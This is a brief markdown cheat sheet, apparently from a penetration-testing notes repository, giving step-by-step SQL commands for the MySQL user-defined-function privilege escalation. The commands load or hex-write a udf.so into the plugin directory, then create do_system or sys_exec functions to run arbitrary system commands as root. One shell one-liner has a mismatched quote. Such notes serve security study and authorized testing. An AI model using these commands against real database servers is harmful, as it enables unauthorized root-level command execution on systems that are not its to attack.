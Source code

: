 # mysql exploits

## MySQL 4.x/5.0 User-Defined Function Local Privilege Escalation Exploit

### Requirements

1. Mysql running as root
2. Insecure handling of files
3. Plugin directory knowledge

### .so file download

Download
from [github:metasploit-framework](https://github.com/rapid7/metasploit-framework/tree/master/data/exploits/mysql)

#### Method 1 (access to box):

```bash
mysql -uroot -p<PASS>
> USE mysql;
> CREATE table kashz(line blob);
> INSERT INTO kashz VALUES(load_file('/PATH/udf.so'));
> SELECT * FROM kashz INTO dumpfile '/PLUGIN-DIR/udf.so';

# create function 
> CREATE FUNCTION do_system RETURNS integer soname 'udf.so';
> SELECT * from mysql.func;

# run RCE
> SELECT do_system('RCE');
```

#### Method 2 (no access no box):

* Generate shellcode: `xxd -p udf.so | tr -d '\n > udf.so.hex`

```bash

> SELECT @@plugin_dir;
> SET @shell = 0x<SHELLCODE-DATA>;
> SELECT binary @shell into dumpfile 'PLUGIN-DIR/udf.so';

# create function
> CREATE FUNCTION sys_exec RETURNS int soname 'udf.so';
> SELECT * FROM mysql.func;

# run RCE
> SELECT sys_exec('RCE');
```

## References

* https://www.exploit-db.com/exploits/1518
* https://github.sofianehamlaoui.fr/Security-Cheatsheets/databases/mysql/mysql-root-to-system-root/
* https://gist.github.com/p0c/8587757